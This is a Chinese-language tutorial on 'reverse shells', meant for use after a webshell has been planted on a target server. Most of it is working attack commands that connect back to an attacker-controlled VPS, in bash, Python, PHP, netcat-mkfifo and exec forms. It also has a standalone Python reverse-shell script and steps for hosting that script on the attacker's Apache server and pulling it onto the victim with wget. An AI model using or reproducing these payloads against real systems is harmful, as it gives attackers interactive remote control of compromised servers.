

## Shell 反弹

当拿到webshell的时候，因为webshell的环境是虚拟终端，不是交互型终端，很多命令是无法执行的，所以需要拿到交互式shell，就得反弹shell

### 工具准备

- VPS(公网ip)
- python环境
- nc(netcat)
- Ubuntu(宿主机)

### 反弹shell 步骤

首先在vps上使用netcat开启监听

```bash
nc -lvnp 8080
```

参数

- -l：使用监听模式，监控传入的资料;
- -v：显示指令执行过程；
- -n：直接使用ip地址，而不通过域名服务器；
- -p：<通信端口>：设置本地主机使用的通信端口


- 测试

  在Ubuntu上开启tcp8080端口，通过上图可以看见nc 监听了本地的8080端口，且是TCP协议

- 在监听机上(vps)上监听8080端口



### bash反弹

```shell
bash -i >& /dev/tcp/<your_vps>/8080 0>&1
```

> -  `bash -i`  ： 产生一个bash的交互环境；
> - `>&`：将联合符号前面的内容与后面的内容相结合然后一起重定向给后者；
> - /dev/tcp/<your_vps>/8080：与目标主机ip/8080端口建立一个TCP连接；
> - 0>&1：将标准输入与标准输出相结合，重定向到前面标准输出内容


### python一句话反弹shell

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_vps>",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


这样虽然反弹回来了，但是看不到用户是谁，此时可以使用python 一句话反弹用户

```shell
python -c "import pty;pty.spawn('/bin/bash')"
```


### python 脚本执行

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<your_vps>",8080));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

当拿到webshell权限之后，可以上传此脚本，只要目标服务器有python环境，即可执行此脚本，并在攻击机上反弹回shell

也可以将此脚本上传至攻击服务器上，使用wget 下载攻击机上的文件，然后再目标服务器上下载此文件(目标服务器有wget命令的情况下)

针对第二种方法介绍(由于第一种方法可以在菜刀，蚁剑等工具直接上传较简单)

首先在vps中开启Apache

```shell
service apaache2 restart
```

将脚本放置在/var/www/html 目录下


在目标服务器上下载此脚本

```shell
wget http://ip/shell.py
```


在宿主机上执行shell.py（注意权限）


### PHP 一句话执行

要求宿主机上拥有php环境

```shell
php -r '$sock=fsockopen("<your_vps>",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```


### PHP 脚本

```php
<?php $sock=fsockopen("<your_vps>",8080);exec("/bin/sh -i <&3 >&3 2>&3");?>
```


### nc命令获取靶机的反弹shell

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_vps> 8080 >/tmp/f
```


### exec 反弹

```shell
0<&196;exec 196<>/dev/tcp/<your_vps>/1024; sh <&196 >&196 2>&196
```


### webshell 下反弹shell

蚁剑连接webshell下

在webshell 下操作可行的有

- python 脚本执行
- PHP 脚本


